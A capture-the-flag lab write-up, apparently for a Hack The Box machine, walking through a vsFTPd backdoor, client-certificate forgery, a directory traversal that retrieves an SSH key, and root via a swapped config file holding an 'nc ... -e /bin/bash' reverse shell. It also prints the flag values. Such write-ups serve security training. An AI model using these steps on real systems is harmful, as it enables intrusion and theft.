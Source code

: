 # Summary
- Takeaways: 
    - enumerate all potential directories (missed email in `oslo`'s home directory folder that allowed for client certificate creation through the website rather than through `openssl` command line)
    - try every password / key and username combination
    - check SUID / SGID bits on all files and directories
- User: backdoor exploit in vsFTPd leading to a root ca.key which allows the creation of client certificate to download files from the server, download path is vulnerable to directory traversal and permits the retrieval of a private key that can be used for SSH login
- Root: SGID bit set on a directory containing a file that contains a command which is run by root 

# Details
### User: 4dcbd172fc9c9ef2ff65c13448d9062d
- Nmap scan reveals port 21, 80, and 443 are open, with a vulnerable instance of vsFTPd 2.3.4 on port 21
- attempting to log into the FTP server with any username ending in `:)` and an empty password activates the backdoor and opens a service on port 6200 that exposes `Psy Shell v0.9.9 (PHP 7.2.10 — cli)`
- command execution is disabled, but typing `help` into the prompt reveals commands that can be run, one of which is `ls` which lists any variables
- a variable named `$tokyo` is in scope and can be printed with `show $tokyo`
- the variable contains a class definition that opens a file located at `/home/nairobi/ca.key`
- the file can be retrieved by directly calling `file_get_contents` with the pathname of the file
- the website hosted on port 443 states a client certificate is needed to continue, which can now be created with the `ca.key`
    - `openssl s_client -showcerts lacasadepapel.htb:443`, retrieve the website's certificate from the output of the command and then save it as `ca.crt`
    - `openssl genrsa -out client.key 2048`, generate a private key
    - `openssl req -new -key device.key -out device.csr`, generate the certificate signing request, making sure to enter `lacasadepapel.htb` for the `Common Name` field
    - `openssl x509 -req -in client.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out client.crt -days 3650`, create the signed certificate
    - `openssl pkcs12 -export -in client.crt -inkey client.key -out client.p12`, convert the client certificate and key to PKCS12 format so that Firefox can import it
    - import into Firefox through `Preferences -> Privacy & Security -> View Certificates -> Your Certificates -> Import`
        - getting the website to recognize the certificate sometimes requires using private mode
- navigating to the website on port 443 now allows access and gives options to download files
- the directory available for file downloads is controlled by the `path` variable in the URL, `https://lacasadepapel.htb/?path=SEASON-1`
- replacing `SEASON-1` with `../` makes it possible to view the contents of `berlin`'s home directory, which contains an `.ssh` directory with keys inside
- attempting to download one of the files from within the `SEASON-1` path reveal that the request is structured as `https://lacasadepapel.htb/file/U0VBU09OLTEvMDEuYXZp`, where the portion after `/file/` in the URL is the base64 encoded path and filename (`U0VBU09OLTEvMDEuYXZp => SEASON-1/01.avi`)
- `echo -n '/home/berlin/.ssh/id_rsa' | base64` can be used to generate the correct string (`L2hvbWUvYmVybGluLy5zc2gvaWRfcnNh`) to retrieve the SSH private key
    - be sure to use `-n` to exclude the trailing newline character otherwise the server will crash and the box will have to be restarted
- the private SSH key allows you to login as the `professor` user, even though it was found in `berlin`'s home directory
- the user flag can be retrieved using the base64 encoding method or once root access has been gained

#### Alternate routes:
- the main website being served has an OTP QR code generator and a signup field that when used tells you to check your email
- nothing is ever sent, but once gaining shell access through the vsFTPd backdoor, `/home/oslo/Maildir/.Sent/cur/` will contain the email that was sent with a URL for generating the client certificate directly through the website rather than using `openssl` commands
- additionally, the Psy Shell can be escaped using `Chankro` to bypass the  `disable_functions` protections and grant shell access as `dali` who can then interact directly with `berlin`'s server running on `localhost:8000`, making it possible to grab the SSH private key that way

### Root: 586979c48efbef5909a23750cc07f511
- `pspy64` reveals that `/usr/bin/node /home/professor/memcached.js` occasionally runs as the user `nobody`
- there is also a file in `professor`'s home directory named `memcached.ini` that includes the line `command = sudo -u nobody /usr/bin/node /home/professor/memcached.js`
- this file is not able to be edited, but the SGID bit is set on the entire home directory for `professor`, meaning the file can be renamed or moved
- removing the file and then replacing it with a version that includes the line `command = /usr/bin/nc 10.10.14.41 9405 -e /bin/bash` allows a reverse shell to be spawned as the root user

### References:
- https://github.com/In2econd/vsftpd-2.3.4-exploit
- https://www.sitepoint.com/interactive-php-debugging-psysh/
- https://terryoy.github.io/2015/02/create-ssl-ca-root-and-self-sign.html
- https://security.stackexchange.com/questions/163199/firefox-certificate-can-t-be-installed
- https://www.gogetssl.com/online-csr-generator/, used for generating the CSR that the website requests in the alternative method
- https://github.com/TarlogicSecurity/Chankro, used for escaping the Psy Shell in the other alternative method

